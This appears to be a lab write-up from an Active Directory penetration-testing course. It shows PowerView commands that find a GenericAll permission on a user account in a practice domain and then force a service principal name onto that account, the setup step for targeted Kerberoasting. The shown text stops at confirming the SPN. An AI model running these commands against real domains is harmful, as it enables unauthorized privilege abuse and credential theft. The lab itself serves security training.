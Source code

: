# Hands-on 7: SetSPN

- [Hands-on 7: SetSPN](#hands-on-7-setspn)
  - [Task](#task)
  - [Determine if studentuserx has permissions to set UserAccountControl flags for any user](#determine-if-studentuserx-has-permissions-to-set-useraccountcontrol-flags-for-any-user)
  - [If yes, force set a SPN on the user and obtain a TGS for the user.](#if-yes-force-set-a-spn-on-the-user-and-obtain-a-tgs-for-the-user)

---

## Task

- Determine if studentuserx has permissions to set UserAccountControl flags for any user.
- If yes, force set a SPN on the user and obtain a TGS for the user.

<br/>

---

## Determine if studentuserx has permissions to set UserAccountControl flags for any user

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers") }
```

Recalling the above command result in Hands-on 5, the interesting ACL:

```
ObjectDN                : CN=Support64User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group
```

<br/>

Since `studentuser64` is in the `studentusers` group, it has `GenericAll` permission on the support user - it can set `UserAccountControl` flags for the user `support64user`.

<br/>

---

## If yes, force set a SPN on the user and obtain a TGS for the user.

```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'}
```

![picture 5](images/48be9ef095810b3793c784b9f0f0a4869943a3a3e0a4e3b753c0f7f4c5a18459.png)  

<br/>

Inspect the SPN again:

![picture 6](images/5813357c7dc9f0cdb73099e10c73b9d3a16d0e89b391499e029b519f54aa2226.png)  

* `Support64User` has the SPN `us/myspn64` now.

<br/>

